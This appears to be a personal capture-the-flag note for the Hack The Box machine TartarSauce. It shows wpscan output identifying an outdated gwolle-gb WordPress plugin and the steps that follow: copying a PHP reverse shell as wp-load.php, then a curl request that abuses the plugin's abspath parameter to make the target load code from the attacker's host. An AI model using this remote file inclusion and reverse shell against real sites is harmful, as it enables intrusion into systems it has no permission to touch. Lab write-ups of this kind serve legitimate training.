






# 20 - WP







# Vhost redirection on "Hello world!"


# See [22 - wp-scan](/home/kali/htb/tartarsauce/notes/22%20-%20wpscan.md)

```sql
[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2021-05-05T09:29:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.1.2
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```


#  An older version of gwolle-gb plugin is installed 2.3.10



# Searchsploit 


# Version on the exploit shouldn't discourage us, the author of the exploit recommends version 1.5.4 as a solution but this exploit works on this later version as well.




# php-reverse-shell.php
```sql
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ locate php-reverse-shell.php
/opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tatarsauce]
└─$ cp /opt/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php wp-load.php
```

Change the ip address and the port on the reverse shell, filename must be wp-load.php 

# Malicious request
```
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/tartarsauce]
└─$ curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.9/
```

